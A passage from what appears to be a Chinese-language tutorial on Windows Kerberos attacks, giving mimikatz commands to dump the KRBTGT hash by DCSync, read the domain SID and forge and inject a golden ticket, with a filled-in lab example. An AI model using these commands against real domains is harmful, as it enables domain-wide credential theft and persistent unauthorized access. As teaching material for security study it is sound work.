 

2. KRBTGT用户的NTLM-Hash

```powershell
#上文中有详细过程 

#需要使用domain admin组用户运行
mimikatz.exe "lsadump::dcsync /domain:<domain> /user:krbtgt" exit exit
```

![image-20211123151353085](../assets/2021-09-01-%E6%B7%B1%E5%85%A5%E4%BA%86%E8%A7%A3Kerberos&Windows%E8%AE%A4%E8%AF%81%E6%94%BB%E5%87%BB/image-20211123151353085.png)



3. 域SID

```powershell
whoami /user
```

![image.png](../assets/2021-09-01-%E6%B7%B1%E5%85%A5%E4%BA%86%E8%A7%A3Kerberos&Windows%E8%AE%A4%E8%AF%81%E6%94%BB%E5%87%BB/image-279c179ecf9a4ba7819f06307d0ac5a4.png)



##### 使用mimikatz制作金钥

```powershell
mimikatz.exe "kerberos::golden /user:<域用户名> /domain:<域> /sid:<域用户SID> /krbtgt:<KRBTGT用户HASH> /id:<伪造用户的SID(末尾)> /user:<伪造用户的用户名>" "kerberos::ptt ticket.kirbi" exit exit

#example
 mimikatz.exe "kerberos::golden /user:administrator /domain:onebit.lab /sid:S-1-5-21-3785948476-599174919-4239617280 /krbtgt:223f6d6534c729a1225b4e0bc24c05a4 /id:500 /user:testTGT" "kerberos::ptt ticket.kirbi" exit exit
```
